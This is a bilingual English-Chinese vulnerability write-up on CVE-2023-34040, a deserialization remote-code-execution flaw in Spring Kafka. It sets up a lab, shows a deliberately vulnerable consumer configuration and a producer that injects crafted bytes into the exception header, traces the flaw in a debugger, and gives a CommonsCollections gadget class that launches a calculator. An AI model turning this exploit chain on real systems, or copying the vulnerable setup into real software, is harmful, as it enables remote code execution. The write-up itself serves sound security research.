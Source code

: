 
# CVE-2023-34040 Spring Kafka Deserialization Remote Code Execution

by pyn3rd

2023-09-15 (Updated: 2023-10-18)

##### [](#0x01-Preface "0x01 Preface")0x01 Preface 0x01 前言

Here is the explicit description about Spring Kafka deserialization vulnerability in Vmware security bulletin.  
以下是 Vmware 安全公告中有关 Spring Kafka 反序列化漏洞的明确描述。

![upload successful](assets/1699429152-e01d739cffd138c6f8cc285fd4461aa0.png)

Reference 参考

[https://spring.io/security/cve-2023-34040](https://spring.io/security/cve-2023-34040)

According to the description in security bulletin, we can simply attain some critical points resulting in the vulnerability.  
根据安全公告中的描述，我们可以简单地达到一些导致漏洞的关键点。

1.  Setting the `ErrorHandlingDeserializer` as a key and/or value in the Kafka record in configuration.  
    在配置中将 `ErrorHandlingDeserializer` 设置为 Kafka 记录中的键和/或值。
    
2.  Setting the boolean type properties `checkDeserExWhenKeyNull` and/or `checkDeserExWhenValueNull` to **true**.  
    将布尔类型属性 `checkDeserExWhenKeyNull` 和/或 `checkDeserExWhenValueNull` 设置为 true。
    
3.  The users can publish a Kafka topic without any verification.  
    用户无需任何验证即可发布 Kafka 主题。
    

##### [](#0x02-Concepts-of-Kafka "0x02 Concepts of Kafka")0x02 Concepts of Kafka Kafka 的0x02概念

Before deeply diving into the vulnerability, we promptly review some relevant concepts of the Kafka service.  
在深入研究漏洞之前，我们及时回顾了 Kafka 服务的一些相关概念。

![img](assets/1699429152-c987482c3ec4a543875c3b25b99f5788.jpg)

-   Producer：we call the object for publishing record **Kafka topic producer**  
    Producer：我们调用发布记录的对象 Kafka 主题 producer
    
-   Topic：The records are classified by the Kafka service, and each classification is named **Topic**.  
    Topic：记录按 Kafka 服务进行分类，每个分类都命名为 Topic。
    

-   Broker：The published messages are stored in a group of servers, we call it Kafka cluster. Each of the server is a **Broker**. The consumer can attain the data form **Broker** and consume more than one topic.  
    Broker：发布的消息存储在一组服务器中，我们称之为 Kafka 集群。每个服务器都是一个 Broker。消费者可以从 Broker 获取数据，并使用多个主题。

-   Consumer：The object which is used to subscribe message and handle with the published message is called **Kafka topi consumer**. The consumption messages are topic based.  
    Consumer：用于订阅消息并处理已发布消息的对象称为 Kafka topi consumer。消费消息是基于主题的。

Moreover,it is necessary to review the structure of Kafka record.  
此外，有必要对Kafka记录的结构进行回顾。

![upload successful](assets/1699429152-3b33d3be81ab4adf6d9e2e4d4becc1c1.png)

Kafka Record, we also call it **Message** or **Event** consisting of **Header** and **Body**. The header data virtually equals to **Metadata** including the basic elements like Topic, Patition and Timestamp. They are stored as a pair of key/value. The body data usually are the relevant business data stored as key/value constructure as well.  
Kafka Record，我们也称它为 Message 或 Event，由 Header 和 Body 组成。标头数据实际上等于元数据，包括 Topic、Patition 和 Timestamp 等基本元素。它们存储为一对键/值。正文数据通常也是存储为键/值结构的相关业务数据。

##### [](#Preparation "Preparation")Preparation 制备

Zookeeper server is required before deploying Kafka service.  
在部署 Kafka 服务之前，需要 Zookeeper 服务器。

1.Installing Zookeeper server by docker  
1.通过docker安装Zookeeper服务器

|     |     |
| --- | --- |
| ```plain<br>1<br>``` | ```plain<br>docker run -d --name zookeeper -p 2181:2181 -t zookeeper:latest<br>``` |

2.Deploying Kafka server by docker  
2.通过docker部署Kafka服务器

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```plain<br>docker run  -d --name kafka -p 9092:9092 \<br>-e KAFKA_ZOOKEEPER_CONNECT=192.168.5.102:2181 \<br>-e KAFKA_ADVERTISED_LISTENERS=PLAINTEXT://192.168.5.102:9092 \<br>-e KAFKA_LISTENERS=PLAINTEXT://0.0.0.0:9092 \<br>-e TZ="Asia/Shanghai" \<br>wurstmeister/kafka:latest<br>``` |

3.Spring Boot project imports the affected Kafka dependencies  
3.Spring Boot 项目导入受影响的 Kafka 依赖

Affected version： 受影响的版本：

-   2.8.1 to 2.9.10 2.8.1 到 2.9.10
-   3.0.0 to 3.0.9 3.0.0 到 3.0.9

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```plain<br><dependency><br>        <groupId>org.springframework.kafka</groupId><br>        <artifactId>spring-kafka</artifactId><br>        <version>2.8.11</version><br>    </dependency><br>``` |

4.Updating the configuration in `application.yaml`  
4.更新配置 `application.yaml`

![upload successful](assets/1699429152-74426f707baf05dac8a0f23882952004.png)

5.Classes for demonstration  
5.示范类

1）Kafka Producer Class 1）Kafka 生产者类

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>51<br>52<br>53<br>``` | ```plain<br>package com.example.SpringKafkaDemo.producer;<br><br>import com.example.SpringKafkaDemo.model.KafkaMessage;<br>import org.apache.kafka.clients.producer.ProducerRecord;<br>import org.springframework.beans.factory.annotation.Autowired;<br>import org.springframework.kafka.core.KafkaTemplate;<br>import org.springframework.web.bind.annotation.*;<br><br>import java.util.HashMap;<br><br>@RestController<br>public class KafkaProducer {<br><br>    @Autowired<br>    private KafkaTemplate<String, String> kafkaTemplate;<br><br>    @PostMapping("/message/send")<br>    public String sendMessage(@RequestBody KafkaMessage message) {<br><br>        String topic = message.getTopic();<br>        String data  = message.getData();<br><br>       HashMap<String, String> headers = message.getHeaders();<br><br><br>        ProducerRecord<String, String> producerRecord = new ProducerRecord<>(topic, data);<br>        for (String s : headers.keySet()) {<br>            if (s.equals("springDeserializerExceptionKey")) {<br>                String exceptData = headers.get(s);<br>                byte[] exceptHandler = KafkaProducer.hexStringtoBytes(exceptData);<br>                producerRecord.headers().add(s, exceptHandler);<br>                continue;<br>            }<br><br>            producerRecord.headers().add(s, headers.get(s).getBytes());<br>        }<br>        kafkaTemplate.send(producerRecord);<br>        String jsonString="{\"code\":\"200\", \"status\":\"success\"}";<br><br>        return jsonString;<br>    }<br><br><br>    private static byte[] hexStringtoBytes(String hexString) {<br><br>        byte[] excepetionMessage = new byte[hexString.length() / 2];<br>        for (int i = 0; i < excepetionMessage.length; i++) {<br>            excepetionMessage[i] = (byte) Integer.parseInt(hexString.substring(i * 2, i * 2 + 2), 16);<br><br>        }<br>        return excepetionMessage;<br>    }<br>}<br>``` |

By the way, here we use a type of design pattern in Java Language, **Template Method Pattern**. In this demonstration, I insert a template named `kafkaTemplate`.  
顺便说一句，这里我们使用 Java 语言中的一种设计模式，即模板方法模式。在本演示中，我插入了一个名为 `kafkaTemplate` .

Highlight of the code fragment  
代码片段的突出显示

|     |     |
| --- | --- |
| ```plain<br>1<br>``` | ```plain<br>private KafkaTemplate<String, String> kafkaTemplate;<br>``` |

2）Kafka Consumer Class 2）Kafka 消费类

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>``` | ```plain<br>package com.example.SpringKafkaDemo.consumer;<br><br>import org.springframework.kafka.annotation.KafkaListener;<br>import org.springframework.stereotype.Service;<br><br>@Service<br>public class KafkaConsumer {<br><br>    @KafkaListener(topics = "my-topic", groupId = "my-group-id")<br>    public void consume(String message) {<br>        System.out.println("Received message: " + message);<br>    }<br><br>}<br>``` |

3）Config Class for the Consumer  
3）消费者的配置类

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>``` | ```plain<br>package com.example.SpringKafkaDemo.config;<br><br>import org.apache.kafka.clients.consumer.ConsumerConfig;<br>import org.springframework.beans.factory.annotation.Value;<br>import org.springframework.context.annotation.Bean;<br>import org.springframework.context.annotation.Configuration;<br>import org.springframework.kafka.annotation.EnableKafka;<br>import org.springframework.kafka.config.ConcurrentKafkaListenerContainerFactory;<br>import org.springframework.kafka.core.ConsumerFactory;<br>import org.springframework.kafka.core.DefaultKafkaConsumerFactory;<br>import org.springframework.kafka.support.serializer.JsonDeserializer;<br><br>import java.util.HashMap;<br>import java.util.Map;<br><br>@Configuration<br>@EnableKafka<br>public class KafkaConsumerConfig {<br><br>    @Value("${spring.kafka.bootstrap-servers}")<br>    private String bootstrapServers;<br><br>    @Value("${spring.kafka.consumer.group-id}")<br>    private String groupId;<br><br>    @Bean<br>    public Map<String, Object> consumerConfigs() {<br>        Map<String, Object> props = new HashMap<>();<br>        props.put(ConsumerConfig.BOOTSTRAP_SERVERS_CONFIG, bootstrapServers);<br>        props.put(ConsumerConfig.GROUP_ID_CONFIG, groupId);<br>        props.put(ConsumerConfig.AUTO_OFFSET_RESET_CONFIG, "earliest");<br>        props.put(ConsumerConfig.KEY_DESERIALIZER_CLASS_CONFIG, JsonDeserializer.class);<br>        props.put(ConsumerConfig.VALUE_DESERIALIZER_CLASS_CONFIG, JsonDeserializer.class);<br>        return props;<br>    }<br><br>    @Bean<br>    public ConsumerFactory<String, String> consumerFactory() {<br>        return new DefaultKafkaConsumerFactory<>(consumerConfigs());<br>    }<br><br>    @Bean<br>    public ConcurrentKafkaListenerContainerFactory<String, String> kafkaListenerContainerFactory() {<br>        ConcurrentKafkaListenerContainerFactory<String, String> factory = new ConcurrentKafkaListenerContainerFactory<>();<br>        factory.setConsumerFactory(consumerFactory());<br>        factory.getContainerProperties().setCheckDeserExWhenKeyNull(true);<br>        factory.getContainerProperties().setCheckDeserExWhenValueNull(true);<br>        return factory;<br>    }<br>}<br>``` |

In acordance with the vulnerablity description in official bulletin, we should set both the `checkDeserExWhenKeyNull` and `checkDeserExWhenValueNull` properties to **true**.  
根据官方公告中的漏洞描述，我们应该将 `checkDeserExWhenKeyNull` 和 `checkDeserExWhenValueNull` 属性都设置为 true。

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>``` | ```plain<br>factory.getContainerProperties().setCheckDeserExWhenKeyNull(true)<br>factory.getContainerProperties().setCheckDeserExWhenValueNull(true)<br>``` |

Se the breakpoint at the `getExceptionFromHeader` function and then have the server start.  
在 `getExceptionFromHeader` 函数处找到断点，然后启动服务器。

![upload successful](assets/1699429152-f628f57fe1aba9e01f33d13a552de473.png)

Step into `invokeIfHaveRecords` function, the record object will be deserialized.  
单步执行 `invokeIfHaveRecords` 函数时，记录对象将被反序列化。

![upload successful](assets/1699429152-aa2c7f3899f0bd373a5f79d71c781ddf.png)

![upload successful](assets/1699429152-08a9bd1a8060e44340b3a2e58a1b2b97.png)

Back to the `getExceptionFromHeader` function.  
回到函数。 `getExceptionFromHeader`

![upload successful](assets/1699429152-820bdce111f3b0e83325b0b13104c5a4.png)

This function makes the value `springDeserializerExceptionKey` of `record.headers()` into the the value of the variables `headerName` and be delivered `header`.  
这个函数使 的值 `record.headers()` 变成变量 `headerName` 的值 `springDeserializerExceptionKey` 并被传递 `header` 。

And then deliver the value to `byteArrayToDeserializationException` function.  
然后将价值交付给 `byteArrayToDeserializationException` 功能。

![upload successful](assets/1699429152-73a4c84798e95d6ba399bb728a1c7445.png)

Step into `byteArrayToDeserializationException` function.  
单步执行 `byteArrayToDeserializationException` 函数。

![upload successful](assets/1699429152-fb95d2146ca99e488a747630433fd226.png)

The `resolveClass` function is overrided to restrain arbitrary Java class deserialization. Actually, we can find the way of preventing Java deserialization vulnerability in many projects, like Apache Shiro, Fastjson.  
重写该 `resolveClass` 函数以限制任意 Java 类反序列化。实际上，我们可以在很多项目中找到防止 Java 反序列化漏洞的方法，比如 Apache Shiro、Fastjson。

![upload successful](assets/1699429152-68683de7b64aabc60a5d2d295aabf88b.png)

Apparently, only the class  
显然，只有类  
`org.springframework.kafka.support.serializer.DeserializationException` can be deserialized.  
`org.springframework.kafka.support.serializer.DeserializationException` 可以反序列化。

![upload successful](assets/1699429152-c069cf3e5e81f1cc2cabfbd85ebc085c.png)

Step into `DeserializationException` function, it consists four arguments. One of them is `cause` which is used to invoke instantial class.  
单步执行 `DeserializationException` 函数，它由四个参数组成。其中之一是 `cause` 用于调用瞬时类。

![upload successful](assets/1699429152-941608e846deeb63d3ceeb49046cba4a.png)

Write a malicious class and make it inherit the parent class `Throwable`.  
编写一个恶意类并使其继承父类 `Throwable` 。

![upload successful](assets/1699429152-24638834647be24ca06440835f228050.png)

Eventually, fill the value of the `springDeserializerExceptionKey` key in JSON data with the generated Java serialization. The remote code execution is trigged after sending the HTTP request.  
最后，使用生成的 Java 序列化填充 JSON 数据中 `springDeserializerExceptionKey` 键的值。发送 HTTP 请求后，将触发远程代码执行。

![upload successful](assets/1699429152-d66ea4de0295d44366afb8701980b789.png)

In addition, we could exploit `CommonsCollections` gadget as well. Thus, the malicious class could be constructed as follow.  
此外，我们还可以利用 `CommonsCollections` 小工具。因此，恶意类可以构造如下。

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>``` | ```plain<br>package org.example.deserialization;<br><br>import org.apache.commons.collections.Transformer;<br>import org.apache.commons.collections.functors.ChainedTransformer;<br>import org.apache.commons.collections.functors.ConstantTransformer;<br>import org.apache.commons.collections.functors.InvokerTransformer;<br>import org.apache.commons.collections.map.TransformedMap;<br><br>import java.util.HashMap;<br>import java.util.Map;<br><br>public class CustomExceptionClass extends Throwable {<br><br>    // CommonCollection6 Gadget in Static Code Block<br><br>    static {<br>        Transformer[] transformers=new Transformer[]{<br>                new ConstantTransformer(Runtime.class),<br>                new InvokerTransformer("getMethod",<br>                        new Class[]{String.class, Class[].class},<br>                        new Object[]{"getRuntime", new Class[0]}),<br>                new InvokerTransformer("invoke",<br>                        new Class[]{Object.class, Object[].class},<br>                        new Object[]{null, new Object[0]}),<br>                new InvokerTransformer("exec",<br>                        new Class[]{String.class},<br>                        new Object[]{"open -a calculator"})<br>        };<br><br>        Map<String, String> innerMap= new HashMap<>();<br>        innerMap.put("key","value");<br><br>        Map<String, String> outerMap = TransformedMap.decorate(<br>                innerMap,<br>                null,<br>                new ChainedTransformer(transformers));<br><br>        outerMap.put("topic", "test");<br><br>    }<br>}<br>``` |

##### [](#Proof-of-Content "Proof of Content")Proof of Content 内容证明

[https://github.com/pyn3rd/CVE-2023-34040](https://github.com/pyn3rd/CVE-2023-34040)
